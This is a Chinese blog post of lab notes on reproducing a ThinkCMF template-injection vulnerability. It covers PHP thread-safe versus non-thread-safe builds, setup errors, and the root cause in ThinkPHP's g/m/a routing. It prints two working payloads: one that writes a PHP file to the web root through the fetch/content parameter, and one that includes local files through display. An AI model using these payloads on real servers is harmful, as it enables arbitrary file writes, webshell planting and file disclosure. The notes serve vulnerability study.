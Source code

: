 本文参考自：  
https://xz.aliyun.com/t/6626

0x00  
由于原文写的已经比较详细，故本文只记录我在复现分析的过程中碰到的问题及学到的知识

0x01  
搭建环境时，稳妥起见选择和原文一致的php版本  
这里注意：php安装包中，ts版本指的是线程安全版本，通常用在ISAPI模式中，而nts版本指的是非线程安全版本，通常用在fastcgi模式中  
ISAPI模式：php作为一个模块，比如作为apache的一个模块  
fastcgi模式：cgi模式的升级版，当作为一个独立的进程存在时，php-fpm是fastcgi的一种实现  
windows下：  
apache+php->ts  
iis(fastcgi)+php->nts（php5.3起搭配fastcgi为主）  
iis(ISAPI)+php->nts（php5.3以前搭配ISAPI为主）  
linux下：  
apache+php->ts  
nginx+php->nts  

0x02  
搭建环境时，第三步报错，提示“thinkcmf 安装报错 Driver.class.php 　LINE: 350”，drop database thinkcmf后，重新安装成功，原因未知

0x03  
由于我个人喜欢在不同的虚拟机下进行攻击测试（这样更贴近实战），当在虚拟机kali下访问时无反映，提示“just a demo for multi lang user! LANG IS en-us;”，后经测试发现是因为thinkcmf不能在英文系统下访问，改用虚拟机win10攻击机（中文版）访问，成功访问

0x04  
使用firefox下插件HackBar Quantum，执行payload1  
```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```
成功在C:\phpstudy_pro\WWW\ThinkCMFX\下创建test.php，访问http://172.16.35.132/ThinkCMFX/test.php 能够成功访问

0x05  
使用firefox下插件HackBar Quantum，执行payload2  
```
?a=display&templateFile=README.md
```
成功包含了README.md

0x06  
漏洞形成的根本原因，ThinkPHP框架规则中，可以通过g\m\a参数指定分组\模块\方法（这里的分组即应用，也就是可以通过g\m\a参数指定任意应用的模块、方法）  
应用是thinkcmf中的概念，一个blog即一个应用，一个商场即一个应用，具体参见thinkcmf官方文档：https://www.thinkcmf.com/docs/cmfx/app.html
